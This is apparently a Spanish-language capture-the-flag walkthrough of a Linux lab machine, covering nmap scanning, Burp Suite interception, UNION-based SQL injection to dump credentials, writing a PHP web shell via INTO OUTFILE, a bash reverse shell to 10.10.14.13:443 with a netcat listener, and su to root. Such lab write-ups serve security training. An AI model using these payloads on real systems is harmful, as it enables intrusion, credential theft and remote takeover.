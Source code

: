 ## Summary

Tags: #Linux #SQLI #BurpSuite #ReverShell #PHP #Nmap 

- IP -> 10.10.11.116
- Ports -> TCP (22, 80, 8080, 4566), UDP (idk)
- OS ->  Linux 
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
    - 80 -> Apache httpd 2.4.48
    - 8080 -> http nginx / 502 Bad Gateway
    - 4566 -> http nginx / Forbidden

Launchpad -> Focal
## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash
❯ ping -c 1 ❮IP❯                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)

	# IP = IP Address de la maquina target 
	# c = Numero de pings a ejecutar
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,80 ❮Target IP❯ -oN targeted
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

Usaremos **BurpSuite** para interceptar la maquina en la parte del campo de la pagina web.
- Le damos en Send y despues Forward, como miramos que no sale nada lo hacemos en el **proxy** 
- Modificamos al lado de la palabra Brazil en el **Proxy** y le damos Forward
- Intercept off 
- Miramos la respuesta en la web 
- Ahora si podemos seguir modificando en el repeater en la parte de Brazil y le damos Send y Forward y todo lo podremos ver en la web.
- Si no sale recargamos la pagina y deberia de salir el resultado

Inyecciones SQLI
Estamos haciendo que nos comente el esto de la query por ende nos debe de mostrar todo el contenido visible de la pagina.
```bash
❯ ' or 1=1-- -                                        # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion 
❯ ' order by 100-- -                                  # Haremos un ordenamiento con la 100va columna e iremos adivinando hasta que no nos marque un error
```

```bash
❯ ' union select 1,2,3 -- -                           # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo
```

Para saber las bases de datos (DB) existentes.
```bash 
❯ ' union select schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
```
Encontramos las DBS llamadas 'mysql' y 'registration'

Para saber las tablas de la base de datos (DB) especifica.
```bash
❯ ' union select table_name from information_schema.tables where table_schema='❮DB_Name❯'-- -                    # Nos muestra las tablas existentes
Para enumerar las tablas 
```
Encontramos que la tabla tambien de llama 'registration'

Para saber las columnas de la tabla que encontramos y la base de datos  (DB) especifica.
```bash 
❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -                    # Nos muestra las tablas existentes
```
Nos muestra ahora 4 columnas pero hay dos importantes 'username' y 'userhash'


Para mostrar la data con concatenaciones
```bash
❯ ' union select group_concat(username,':',password) from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
```
Ahora nos disponemos a cargar un archivo y ver si lo podemos observar en la web, esto en una ruta tipica de html que es:
```bash
/var/www/html/file.php 
```

Primero haremos la prueba colocando lo que sea en un archivo .php
```bash
❯ ' union select "❮?php system($_REQUEST['cmd']); ?❯" into outfile "/var/www/html/file.php"-- -   

# Podemos crear un archivo llamado 'file.php' en la ruta html que contenga un cmd que nos interpretara comandos. Primero podemos hacer una prueba, colocando lo que sea en donde esta la parte de System.

# Despues debemos de colocar en la url: \http://1.1.1.1/prueba.php?cmd=whoami
	# 1.1.1.1 -> IP de la victima
	# whoami -> Comando a usar, estos pueden ir variando
	# Pero podemos hacer un archivo de PHP Reverse ...
```
Ahora que hemos agregado un archivo en la ruta del HTML. Podemos probar si tenemos ejecucion remota de comandos. 
Despues de verificar que tenemos ejecucion remota de comandos, hacemos lo siguiente. 

## User

Comando de ReverShell para colocarlo en la url
```bash
❯ bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'  # Comando que debemos de Encodear en forma de URL y esto lo podemos colocar en BurpSuite, para despues hacerle Encoder y poderlo poner en la URL 
```
Despues debemos de colocar en la url: **\http://1.1.1.1/prueba.php?cmd=** Aqui

Despues nos colocamos en escucha para al momento de darle Enter a la URL, podamos recibir la Revershell
```bash
❯ nc -nlvp 443 
```

Una vez adentro haciendo un ls -l podemos ver un file que se llama config.php en el cual cuando lo miremos con cat encontraremos un user y passwd.
Si nos regresamos al home del usuario podremos encontrar la flag user.txt

## Root
Despues con el siguiente comando y la passwd que habiamos encontrado, podremos convertirnos en Root
```bash
❯ su root                        # Para convertirnos en root y debemos de proporcionar una passwd
```